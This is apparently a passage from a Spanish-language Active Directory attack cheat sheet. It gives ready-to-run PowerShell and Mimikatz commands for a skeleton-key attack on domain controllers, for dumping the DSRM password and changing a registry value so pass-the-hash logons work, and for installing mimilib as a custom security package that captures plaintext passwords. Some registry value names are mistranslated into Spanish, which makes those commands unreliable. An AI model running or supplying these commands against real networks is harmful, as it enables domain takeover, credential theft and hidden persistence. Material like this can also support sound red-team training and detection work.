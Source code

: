 [Lista de SPN](https://adsecurity.org/?page_id=183)

### Ataque de llave maestra

```powershell
#Comando de explotación ejecutado como DA:
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <FQDN del DC>

#Acceso con la contraseña "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

### Abuso de DSRM

_¿QUÉ ES DIS?: Cada DC tiene una cuenta de administrador local. Esta cuenta tiene la contraseña DSRM, que es SafeBackupPassword. Podemos obtener esto y luego pasar por PTH su hash NTLM para obtener acceso de administrador local al controlador de dominio.

```powershell
#Volcar la contraseña DSRM (requiere privilegios del DA):
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <Nombre del controlador de dominio>

#Esta es una cuenta local, por lo que podemos pasar por PTH y autenticarnos.

#PERO necesitamos modificar el comportamiento de la cuenta DSRM antes de realizar el PTH:
#Conectar al controlador de dominio:
Enter-PSSession -ComputerName <Nombre del controlador de dominio>

#Modificar el comportamiento de inicio de sesión en el registro:
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#Si la propiedad ya existe:
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

¡Entonces, solo realiza el PTH para obtener acceso de administrador local al controlador de dominio!

### SSP personalizado

¿QUÉ ES ESTO?: Podemos configurar nuestro SSP descargando una DLL personalizada, por ejemplo, mimilib.dll de mimikatz, que monitorizará y capturará las contraseñas de texto plano de los usuarios que hayan iniciado sesión.

Desde PowerShell:

```powershell
#Obtener el paquete de seguridad actual:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty 'Paquetes de Seguridad'

#Añadir mimilib:
$packages += "mimilib"

#Cambiar el nombre de los nuevos paquetes
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Paquetes de Seguridad' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Paquetes de Seguridad' -Value $packages

#ALTERNATIVA:
Invoke-Mimikatz -Command '"misc::memssp"'
```

